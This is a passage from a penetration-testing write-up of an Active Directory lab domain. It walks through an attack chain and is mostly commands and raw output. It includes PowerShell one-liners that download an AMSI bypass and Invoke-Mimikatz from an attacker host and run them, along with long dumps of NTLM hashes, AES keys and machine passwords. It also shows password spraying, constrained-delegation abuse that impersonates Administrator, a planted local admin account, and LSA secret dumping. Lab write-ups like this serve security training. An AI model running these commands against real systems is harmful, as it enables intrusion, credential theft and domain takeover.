Now that we have Local Administrator permission and we have access with Evil-WinRM we can use Invoke-Mimikatz.ps1 to dump the credentials. The one liner was not working, so I had to bypass AMSI first, then I executed Invoke-Mimikatz.
IEX(IWR http://192.168.58.1:8080/AMSI_Bypass.txt -UseBasicParsing); Invoke-Evasion;
IEX(IWR http://192.168.58.1:8080/Invoke-Mimikatz.ps1 -UseBasicParsing); Invoke-Mimikatz -Command '"sekurlsa::ekeys"' .#####. mimikatz 2.2.0 (x64) #19041 Jul 24 2021 11:00:11
.## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
## \ / ## > https://blog.gentilkiwi.com/mimikatz
'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
'#####' > https://pingcastle.com / https://mysmartlogon.com ***/
mimikatz(powershell) # sekurlsa::ekeys
Authentication Id : 0 ; 12103711 (00000000:00b8b01f)
Session : NetworkCleartext from 0
User Name : frank
Domain : ACADEMY
Logon Server : DC-AC
Logon Time : 10/24/2024 2:12:38 PM
SID : S-1-5-21-1862577942-1096578196-3876774552-1132
* Username : frank
* Domain : ACADEMY.NINJA.LAN
* Password : (null)
* Key List :
aes256_hmac a0d676dd3e4d7673ec255caf010e1e350f1b09d8871b88eb01c4c8ba4217beac
rc4_hmac_nt d4fad93561dee253398d5891e991a6fb
rc4_hmac_old d4fad93561dee253398d5891e991a6fb
rc4_md4 d4fad93561dee253398d5891e991a6fb
rc4_hmac_nt_exp d4fad93561dee253398d5891e991a6fb
rc4_hmac_old_exp d4fad93561dee253398d5891e991a6fb
Authentication Id : 0 ; 12101480 (00000000:00b8a768)
Session : NetworkCleartext from 0
User Name : frank
Domain : ACADEMY
Logon Server : DC-AC
Logon Time : 10/24/2024 2:12:37 PM
SID : S-1-5-21-1862577942-1096578196-3876774552-1132
* Username : frank
* Domain : ACADEMY.NINJA.LAN
* Password : (null)
* Key List :
aes256_hmac a0d676dd3e4d7673ec255caf010e1e350f1b09d8871b88eb01c4c8ba4217beac
rc4_hmac_nt d4fad93561dee253398d5891e991a6fb
rc4_hmac_old d4fad93561dee253398d5891e991a6fb
rc4_md4 d4fad93561dee253398d5891e991a6fb
rc4_hmac_nt_exp d4fad93561dee253398d5891e991a6fb
rc4_hmac_old_exp d4fad93561dee253398d5891e991a6fb
Authentication Id : 0 ; 57840 (00000000:0000e1f0)
Session : Interactive from 1
User Name : DWM-1
Domain : Window Manager
Logon Server : (null)
Logon Time : 10/24/2024 10:00:52 AM
SID : S-1-5-90-0-1
* Username : WEB$
* Domain : academy.ninja.lan
* Password : i5E#bmzN8NUM_JMo=3a9)/WCne?>6DLP=uurY&xF!2LJgZNHIkS"?*bl=3<7zzDH;r1hF89>].mN3!xdD&i$cehbM#4UUjL#[7P`(z-F_ULhFF%y072>BzRY
* Key List :
aes256_hmac 0d6f7e35e4ab5c8618a49683a18d488d77eed47895253953431ac5d0eeba2665
aes128_hmac 2d804325c40cf59f96e743ec0809fb19
rc4_hmac_nt 123c8bd5818ca47c9efae66419a796ea
rc4_hmac_old 123c8bd5818ca47c9efae66419a796ea
rc4_md4 123c8bd5818ca47c9efae66419a796ea
rc4_hmac_nt_exp 123c8bd5818ca47c9efae66419a796ea
rc4_hmac_old_exp 123c8bd5818ca47c9efae66419a796ea
Authentication Id : 0 ; 57816 (00000000:0000e1d8)
Session : Interactive from 1
User Name : DWM-1
Domain : Window Manager
Logon Server : (null)
Logon Time : 10/24/2024 10:00:52 AM
SID : S-1-5-90-0-1
* Username : WEB$
* Domain : academy.ninja.lan
* Password : i5E#bmzN8NUM_JMo=3a9)/WCne?>6DLP=uurY&xF!2LJgZNHIkS"?*bl=3<7zzDH;r1hF89>].mN3!xdD&i$cehbM#4UUjL#[7P`(z-F_ULhFF%y072>BzRY
* Key List :
aes256_hmac 0d6f7e35e4ab5c8618a49683a18d488d77eed47895253953431ac5d0eeba2665
aes128_hmac 2d804325c40cf59f96e743ec0809fb19
rc4_hmac_nt 123c8bd5818ca47c9efae66419a796ea
rc4_hmac_old 123c8bd5818ca47c9efae66419a796ea
rc4_md4 123c8bd5818ca47c9efae66419a796ea
rc4_hmac_nt_exp 123c8bd5818ca47c9efae66419a796ea
rc4_hmac_old_exp 123c8bd5818ca47c9efae66419a796ea
Authentication Id : 0 ; 996 (00000000:000003e4)
Session : Service from 0
User Name : WEB$
Domain : ACADEMY
Logon Server : (null)
Logon Time : 10/24/2024 10:00:52 AM
SID : S-1-5-20
* Username : web$
* Domain : ACADEMY.NINJA.LAN
* Password : (null)
* Key List :
aes256_hmac 240a73574296ea40ec16237310f413f96bf7cd9d541b37e3ee95808d5b5d7a51
rc4_hmac_nt 123c8bd5818ca47c9efae66419a796ea
rc4_hmac_old 123c8bd5818ca47c9efae66419a796ea
rc4_md4 123c8bd5818ca47c9efae66419a796ea
rc4_hmac_nt_exp 123c8bd5818ca47c9efae66419a796ea
rc4_hmac_old_exp 123c8bd5818ca47c9efae66419a796ea
Authentication Id : 0 ; 35694 (00000000:00008b6e)
Session : Interactive from 0
User Name : UMFD-0
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 10/24/2024 10:00:52 AM
SID : S-1-5-96-0-0
* Username : WEB$
* Domain : academy.ninja.lan
* Password : i5E#bmzN8NUM_JMo=3a9)/WCne?>6DLP=uurY&xF!2LJgZNHIkS"?*bl=3<7zzDH;r1hF89>].mN3!xdD&i$cehbM#4UUjL#[7P`(z-F_ULhFF%y072>BzRY
* Key List :
aes256_hmac 0d6f7e35e4ab5c8618a49683a18d488d77eed47895253953431ac5d0eeba2665
aes128_hmac 2d804325c40cf59f96e743ec0809fb19
rc4_hmac_nt 123c8bd5818ca47c9efae66419a796ea
rc4_hmac_old 123c8bd5818ca47c9efae66419a796ea
rc4_md4 123c8bd5818ca47c9efae66419a796ea
rc4_hmac_nt_exp 123c8bd5818ca47c9efae66419a796ea
rc4_hmac_old_exp 123c8bd5818ca47c9efae66419a796ea
Authentication Id : 0 ; 12104884 (00000000:00b8b4b4)
Session : NetworkCleartext from 0
User Name : frank
Domain : ACADEMY
Logon Server : DC-AC
Logon Time : 10/24/2024 2:12:38 PM
SID : S-1-5-21-1862577942-1096578196-3876774552-1132
* Username : frank
* Domain : ACADEMY.NINJA.LAN
* Password : (null)
* Key List :
aes256_hmac a0d676dd3e4d7673ec255caf010e1e350f1b09d8871b88eb01c4c8ba4217beac
rc4_hmac_nt d4fad93561dee253398d5891e991a6fb
rc4_hmac_old d4fad93561dee253398d5891e991a6fb
rc4_md4 d4fad93561dee253398d5891e991a6fb
rc4_hmac_nt_exp d4fad93561dee253398d5891e991a6fb
rc4_hmac_old_exp d4fad93561dee253398d5891e991a6fb
Authentication Id : 0 ; 685808 (00000000:000a76f0)
Session : Service from 0
User Name : DefaultAppPool
Domain : IIS APPPOOL
Logon Server : (null)
Logon Time : 10/24/2024 10:12:49 AM
SID : S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
* Username : WEB$
* Domain : academy.ninja.lan
* Password : i5E#bmzN8NUM_JMo=3a9)/WCne?>6DLP=uurY&xF!2LJgZNHIkS"?*bl=3<7zzDH;r1hF89>].mN3!xdD&i$cehbM#4UUjL#[7P`(z-F_ULhFF%y072>BzRY
* Key List :
aes256_hmac 0d6f7e35e4ab5c8618a49683a18d488d77eed47895253953431ac5d0eeba2665
aes128_hmac 2d804325c40cf59f96e743ec0809fb19
rc4_hmac_nt 123c8bd5818ca47c9efae66419a796ea
rc4_hmac_old 123c8bd5818ca47c9efae66419a796ea
rc4_md4 123c8bd5818ca47c9efae66419a796ea
rc4_hmac_nt_exp 123c8bd5818ca47c9efae66419a796ea
rc4_hmac_old_exp 123c8bd5818ca47c9efae66419a796ea
Authentication Id : 0 ; 351180 (00000000:00055bcc)
Session : NetworkCleartext from 0
User Name : frank
Domain : ACADEMY
Logon Server : DC-AC
Logon Time : 10/24/2024 10:01:41 AM
SID : S-1-5-21-1862577942-1096578196-3876774552-1132
* Username : frank
* Domain : ACADEMY.NINJA.LAN
* Password : (null)
* Key List :
aes256_hmac a0d676dd3e4d7673ec255caf010e1e350f1b09d8871b88eb01c4c8ba4217beac
rc4_hmac_nt d4fad93561dee253398d5891e991a6fb
rc4_hmac_old d4fad93561dee253398d5891e991a6fb
rc4_md4 d4fad93561dee253398d5891e991a6fb
rc4_hmac_nt_exp d4fad93561dee253398d5891e991a6fb
rc4_hmac_old_exp d4fad93561dee253398d5891e991a6fb
Authentication Id : 0 ; 35723 (00000000:00008b8b)
Session : Interactive from 1
User Name : UMFD-1
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 10/24/2024 10:00:52 AM
SID : S-1-5-96-0-1
* Username : WEB$
* Domain : academy.ninja.lan
* Password : i5E#bmzN8NUM_JMo=3a9)/WCne?>6DLP=uurY&xF!2LJgZNHIkS"?*bl=3<7zzDH;r1hF89>].mN3!xdD&i$cehbM#4UUjL#[7P`(z-F_ULhFF%y072>BzRY
* Key List :
aes256_hmac 0d6f7e35e4ab5c8618a49683a18d488d77eed47895253953431ac5d0eeba2665
aes128_hmac 2d804325c40cf59f96e743ec0809fb19
rc4_hmac_nt 123c8bd5818ca47c9efae66419a796ea
rc4_hmac_old 123c8bd5818ca47c9efae66419a796ea
rc4_md4 123c8bd5818ca47c9efae66419a796ea
rc4_hmac_nt_exp 123c8bd5818ca47c9efae66419a796ea
rc4_hmac_old_exp 123c8bd5818ca47c9efae66419a796ea
Authentication Id : 0 ; 999 (00000000:000003e7)
Session : UndefinedLogonType from 0
User Name : WEB$
Domain : ACADEMY
Logon Server : (null)
Logon Time : 10/24/2024 10:00:52 AM
SID : S-1-5-18
* Username : web$
* Domain : ACADEMY.NINJA.LAN
* Password : (null)
* Key List :
aes256_hmac 240a73574296ea40ec16237310f413f96bf7cd9d541b37e3ee95808d5b5d7a51
rc4_hmac_nt 123c8bd5818ca47c9efae66419a796ea
rc4_hmac_old 123c8bd5818ca47c9efae66419a796ea
rc4_md4 123c8bd5818ca47c9efae66419a796ea
rc4_hmac_nt_exp 123c8bd5818ca47c9efae66419a796ea
rc4_hmac_old_exp 123c8bd5818ca47c9efae66419a796eaWe can see above that we were able to dump NTLM and AES keys for WEB$ and also Frank.
Now doing a password spraying to check all the hosts we can login with user frank, I noticed that we have administrator right inside SQL and WEB hosts. netexec smb 192.168.58.0/24 -u 'frank' --aesKey 'a0d676dd3e4d7673ec255caf010e1e350f1b09d8871b88eb01c4c8ba4217beac'

We still have a long way to domain administrator.
If we remember from the Bloodhound-QuickWins and BloodHound GUI enumeration, Frank has AllowedToDelegate to share.academy.ninja.lan. FRANK@ACADEMY.NINJA.LAN--> AllowedToDelegate --> SHARE.ACADEMY.NINJA.LAN

We already have access to Frank, so let’s move on.
SHARE Server Privilege Escalation - Constrained Delegation With Protocol Transition
If a service is configured with constrained delegation with protocol transition, then it can obtain a service ticket on behalf of a user by combining S4U2self and S4U2proxy requests, as long as the user is not sensitive for delegation, or a member of the "Protected Users" group. The service ticket can then be used with Pass-The-Ticket This process is similar to Resource-Based-Constrained-Delegation exploitation


To enumerate Constrained Delegation using PowerView, you can follow these steps:
Enumerating Constrained Delegation with Protocol Transition
The key differences between the two approaches are:
In both cases, the msds-allowedtodelegateto property is the key piece of information that you need to identify the services that the compromised account can delegate to.
Note: If a user is marked as ‘Account is sensitive and cannot be delegated ’ in AD, you will not be able to impersonate them.
This means that if you compromise the hash of the service you can impersonate users and obtain access on their behalf to the service configured (possible privesc).
Moreover, you won't only have access to the service that the user is able to impersonate, but also to any service because the SPN (the service name requested) is not being checked, only privileges. Therefore, if you have access to CIFS service you can also have access to HOST service using /altservice flag.
Let’s start by enumerating the delegations with Frank.
findDelegation.py 'academy.ninja.lan'/'frank'@'academy.ninja.lan' -aesKey 'a0d676dd3e4d7673ec255caf010e1e350f1b09d8871b88eb01c4c8ba4217beac' -target-domain 'academy.ninja.lan'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Getting machine hostname
[-] CCache file is not found. Skipping...
AccountName AccountType DelegationType DelegationRightsTo SPN Exists
-------------- ----------- ---------------------------------- -------------------------------- ----------
frank Person Constrained w/ Protocol Transition eventlog/share No
frank Person Constrained w/ Protocol Transition eventlog/share.academy.ninja.lan Yes Frank is listed as having "Constrained w/ Protocol Transition" delegation entry, meaning this account is configured with constrained delegation with protocol transition.
getST.py -spn 'eventlog/share' -altservice 'cifs/share' -impersonate 'Administrator' -dc-ip 'dc-ac.academy.ninja.lan' 'academy.ninja.lan'/'frank'@'academy.ninja.lan' -aesKey 'a0d676dd3e4d7673ec255caf010e1e350f1b09d8871b88eb01c4c8ba4217beac'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Changing service from eventlog/share@ACADEMY.NINJA.LAN to cifs/share@ACADEMY.NINJA.LAN
[*] Saving ticket in Administrator@cifs_share@ACADEMY.NINJA.LAN.ccacheThe output you're seeing indicates that you've successfully requested a TGT (Ticket Granting Ticket) for the Administrator user and have also requested S4U2self and S4U2Proxy tickets. The ticket has been saved in the ccache file for further use. Now, to access the eventlog/share.academy.ninja.lan service.
export KRB5CCNAME=Administrator@cifs_share@ACADEMY.NINJA.LAN.ccachewmiexec.py @share -k -no-pass

We have access to share.academy.ninja.lan server using wmiexec.py service and we are Administrator.
As we did previously, let’s add our a new user and make it local admin member, but
net user stark Stark123! /add
net localgroup Administrators stark /add
We can now use Evil-WinRM with the newly created user. evil-winrm -i 'share.academy.ninja.lan' -u 'stark' -p 'Stark123!'

Credentials dumping With mimikatz.
Now that we have Local Administrator permission and we have access with Evil-WinRM we can use Invoke-Mimikatz.ps1 to dump the credentials. We have to bypass AMSI first, then I executed Invoke-Mimikatz.
IEX(IWR http://192.168.58.1:8080/AMSI_Bypass.txt -UseBasicParsing); Invoke-Evasion;IEX(IWR http://192.168.58.1:8080/Invoke-Mimikatz.ps1 -UseBasicParsing); Invoke-Mimikatz -Command '"sekurlsa::ekeys"'Now let’s use mimikatz again to dump the creds.
.#####. mimikatz 2.2.0 (x64) #19041 Jul 24 2021 11:00:11
.## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
## \ / ## > https://blog.gentilkiwi.com/mimikatz
'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
'#####' > https://pingcastle.com / https://mysmartlogon.com ***/
mimikatz(powershell) # sekurlsa::ekeys
Authentication Id : 0 ; 996 (00000000:000003e4)
Session : Service from 0
User Name : SHARE$
Domain : ACADEMY
Logon Server : (null)
Logon Time : 10/24/2024 10:01:36 AM
SID : S-1-5-20
* Username : share$
* Domain : ACADEMY.NINJA.LAN
* Password : (null)
* Key List :
aes256_hmac fa29186696ed06c1587f6e89e5d9e0239d107d90f4f2a83dd86b786c5e77b748
rc4_hmac_nt 01667d1f54d4ac544d1d7d02055f1815
rc4_hmac_old 01667d1f54d4ac544d1d7d02055f1815
rc4_md4 01667d1f54d4ac544d1d7d02055f1815
rc4_hmac_nt_exp 01667d1f54d4ac544d1d7d02055f1815
rc4_hmac_old_exp 01667d1f54d4ac544d1d7d02055f1815
Authentication Id : 0 ; 57261 (00000000:0000dfad)
Session : Interactive from 1
User Name : DWM-1
Domain : Window Manager
Logon Server : (null)
Logon Time : 10/24/2024 10:01:36 AM
SID : S-1-5-90-0-1
* Username : SHARE$
* Domain : academy.ninja.lan
* Password : ?Y:F.qPrerAC?b.u<O'$*vU3u%0Zzg>m)r$;jE.T#cZ!Y;D2/446Mt=2j^i7K(]7vn0F"!M9+X=tXeL^_e06[gSorJ9**RZxG^1,PcNaE=6&"9qx>u:*l_e
* Key List :
aes256_hmac aed5df4e9a6311997bc5996bcca41851ff056d0735236f174f46051e218f0364
aes128_hmac 399d883249f0a4ca211dd56494780044
rc4_hmac_nt 01667d1f54d4ac544d1d7d02055f1815
rc4_hmac_old 01667d1f54d4ac544d1d7d02055f1815
rc4_md4 01667d1f54d4ac544d1d7d02055f1815
rc4_hmac_nt_exp 01667d1f54d4ac544d1d7d02055f1815
rc4_hmac_old_exp 01667d1f54d4ac544d1d7d02055f1815
Authentication Id : 0 ; 57245 (00000000:0000df9d)
Session : Interactive from 1
User Name : DWM-1
Domain : Window Manager
Logon Server : (null)
Logon Time : 10/24/2024 10:01:36 AM
SID : S-1-5-90-0-1
* Username : SHARE$
* Domain : academy.ninja.lan
* Password : ?Y:F.qPrerAC?b.u<O'$*vU3u%0Zzg>m)r$;jE.T#cZ!Y;D2/446Mt=2j^i7K(]7vn0F"!M9+X=tXeL^_e06[gSorJ9**RZxG^1,PcNaE=6&"9qx>u:*l_e
* Key List :
aes256_hmac aed5df4e9a6311997bc5996bcca41851ff056d0735236f174f46051e218f0364
aes128_hmac 399d883249f0a4ca211dd56494780044
rc4_hmac_nt 01667d1f54d4ac544d1d7d02055f1815
rc4_hmac_old 01667d1f54d4ac544d1d7d02055f1815
rc4_md4 01667d1f54d4ac544d1d7d02055f1815
rc4_hmac_nt_exp 01667d1f54d4ac544d1d7d02055f1815
rc4_hmac_old_exp 01667d1f54d4ac544d1d7d02055f1815
Authentication Id : 0 ; 35576 (00000000:00008af8)
Session : Interactive from 1
User Name : UMFD-1
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 10/24/2024 10:01:36 AM
SID : S-1-5-96-0-1
* Username : SHARE$
* Domain : academy.ninja.lan
* Password : ?Y:F.qPrerAC?b.u<O'$*vU3u%0Zzg>m)r$;jE.T#cZ!Y;D2/446Mt=2j^i7K(]7vn0F"!M9+X=tXeL^_e06[gSorJ9**RZxG^1,PcNaE=6&"9qx>u:*l_e
* Key List :
aes256_hmac aed5df4e9a6311997bc5996bcca41851ff056d0735236f174f46051e218f0364
aes128_hmac 399d883249f0a4ca211dd56494780044
rc4_hmac_nt 01667d1f54d4ac544d1d7d02055f1815
rc4_hmac_old 01667d1f54d4ac544d1d7d02055f1815
rc4_md4 01667d1f54d4ac544d1d7d02055f1815
rc4_hmac_nt_exp 01667d1f54d4ac544d1d7d02055f1815
rc4_hmac_old_exp 01667d1f54d4ac544d1d7d02055f1815
Authentication Id : 0 ; 35536 (00000000:00008ad0)
Session : Interactive from 0
User Name : UMFD-0
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 10/24/2024 10:01:36 AM
SID : S-1-5-96-0-0
* Username : SHARE$
* Domain : academy.ninja.lan
* Password : ?Y:F.qPrerAC?b.u<O'$*vU3u%0Zzg>m)r$;jE.T#cZ!Y;D2/446Mt=2j^i7K(]7vn0F"!M9+X=tXeL^_e06[gSorJ9**RZxG^1,PcNaE=6&"9qx>u:*l_e
* Key List :
aes256_hmac aed5df4e9a6311997bc5996bcca41851ff056d0735236f174f46051e218f0364
aes128_hmac 399d883249f0a4ca211dd56494780044
rc4_hmac_nt 01667d1f54d4ac544d1d7d02055f1815
rc4_hmac_old 01667d1f54d4ac544d1d7d02055f1815
rc4_md4 01667d1f54d4ac544d1d7d02055f1815
rc4_hmac_nt_exp 01667d1f54d4ac544d1d7d02055f1815
rc4_hmac_old_exp 01667d1f54d4ac544d1d7d02055f1815
Authentication Id : 0 ; 999 (00000000:000003e7)
Session : UndefinedLogonType from 0
User Name : SHARE$
Domain : ACADEMY
Logon Server : (null)
Logon Time : 10/24/2024 10:01:35 AM
SID : S-1-5-18
* Username : share$
* Domain : ACADEMY.NINJA.LAN
* Password : (null)
* Key List :
aes256_hmac fa29186696ed06c1587f6e89e5d9e0239d107d90f4f2a83dd86b786c5e77b748
rc4_hmac_nt 01667d1f54d4ac544d1d7d02055f1815
rc4_hmac_old 01667d1f54d4ac544d1d7d02055f1815
rc4_md4 01667d1f54d4ac544d1d7d02055f1815
rc4_hmac_nt_exp 01667d1f54d4ac544d1d7d02055f1815
rc4_hmac_old_exp 01667d1f54d4ac544d1d7d02055f1815ReadGMSAPassword
This type of abuse is particularly noteworthy because it differs from typical abuse cases. It occurs when an attacker gains control over an object that has sufficient permissions, as specified in the DACL (Discretionary Access Control List) of the target gMSA account's msDS-GroupMSAMembership attribute. These objects are often principals that have been explicitly configured to use the gMSA account.
If these conditions are met, the attacker can potentially access and read the password of the gMSA (Group Managed Service Account), compromising the security of the account.
The attacker can then read the gMSA (group managed service accounts) password of the account if those requirements are met. On UNIX-like systems, gMSADumper (Python) can be used to read and decode gMSA passwords. It supports cleartext NTLM, pass-the-hash and Kerberoas authentications.
There’s an amazing blogpost by Giulio Pierantoni explaining this attack in a way that no one else could explain. https://medium.com/@offsecdeer/attacking-group-managed-service-accounts-gmsa-5e9c54c56e49 Based on our enumeration, with Bloodhound we can see that our compromised machine SHARE, has ReadGMSAPassword over GMSANFS$ account.

Without LDAPS only the gMSA ACLs will be shown. Be aware that gMSADumper.py doen’t support AES keys, so we need to use either cleartext password or NTLM hash. In this case I’m using NT:NT.
python3 gMSADumper.py -d 'academy.ninja.lan' -u 'share$' -p '01667d1f54d4ac544d1d7d02055f1815:01667d1f54d4ac544d1d7d02055f1815'

Windows will refuse to send password data through LDAP unless we are using LDAPS, which is disabled by default because a TLS certificate is required. Which is the behavior we can see on the screenshot above when we try to use gMSADumper.py.
Reading gMSA Password With NetExec.
I was not able to abuse this internally using powershell, then I tried using Netexec. I need to confess that I don’t understand how NetExec is able to dump gMSA credentials remotely, but it works. netexec smb 192.168.58.23 -u 'stark' -p 'Stark123!' --local-auth --lsa
SMB 192.168.58.23 445 SHARE [*] Windows 10 / Server 2019 Build 17763 x64 (name:SHARE) (domain:SHARE) (signing:False) (SMBv1:False)
SMB 192.168.58.23 445 SHARE [+] SHARE\stark:Stark123! (Pwn3d!)
SMB 192.168.58.23 445 SHARE [+] Dumping LSA secrets
SMB 192.168.58.23 445 SHARE ACADEMY.NINJA.LAN/Administrator:$DCC2$10240#Administrator#568af73aa9cb708dab311b9ec97802b0: (2024-10-23 22:19:23)
SMB 192.168.58.23 445 SHARE ACADEMY\SHARE$:aes256-cts-hmac-sha1-96:fa29186696ed06c1587f6e89e5d9e0239d107d90f4f2a83dd86b786c5e77b748
SMB 192.168.58.23 445 SHARE ACADEMY\SHARE$:aes128-cts-hmac-sha1-96:4517abc3e657e0783e0812e5562d437c
SMB 192.168.58.23 445 SHARE ACADEMY\SHARE$:des-cbc-md5:1fa88a51613b8354
SMB 192.168.58.23 445 SHARE ACADEMY\SHARE$:plain_password_hex:20003f0059003a0046002e0071005000720065007200410043003f0062002e0075003c004f00270024002a007600550033007500250030005a007a0067003e006d002900720024003b006a0045002e005400230063005a00210059003b00440032002f003400340036004d0074003d0032006a005e00690037004b0028005d00370076006e0030004600220021004d0039002b0058003d007400580065004c005e005f006500300036005b00670053006f0072004a0039002a002a0052005a00780047005e0031002c00500063004e00610045003d003600260022003900710078003e0075003a002a006c005f006500
SMB 192.168.58.23 445 SHARE ACADEMY\SHARE$:aad3b435b51404eeaad3b435b51404ee:01667d1f54d4ac544d1d7d02055f1815:::
SMB 192.168.58.23 445 SHARE dpapi_machinekey:0x540a603e3321e530159ce8037f7506ab53a7c757
dpapi_userkey:0x0b66b7ef51689b14c24534b30b892033648e4890
SMB 192.168.58.23 445 SHARE NL$KM:6408d7d8e2afea8d0f5e5b101f231178edceae62d321b940a8906c0448d843400bc938ba1ccacff0b5117c8ce65d2c99460e1b18b3e1dff7831c3ececd1e609b
SMB 192.168.58.23 445 SHARE _SC_GMSA_DPAPI_{C6810348-4834-4a1e-817D-5838604E6004}_fd24bfe9f1d8297458dfcdce87bc952248f048008a059fcd087c88c8f864fbe7:2750be25ad49f360062624feb0f4ea65f28f03c05165ff89e516645088a9cadcc548f90329effbd0621031a9af1e5ceb83b1adbfa72ca5627044a6fd55ecfe8d9af512f3cd67ee1880388db4685f9007b694934e241dc3e069872d21bb8c1071c1fbcbed0396fbe8c124dda3d05dedb7bfcd16fd8ba8f8afebcaa374f1dd1d5beca0a95fc71c96ba6322484cd901868102c0dcc13525774c387609596b6ee049a8d7ab148d598c9ea5d87140e3e950f41d271f245b51e754c1b5f73a21ddedb6b9278b1ee1f850c063e05c24e7ea1ecedacac40902de0d8a98413559d0b2891d276e1eb194741b4e70acc32e78713189
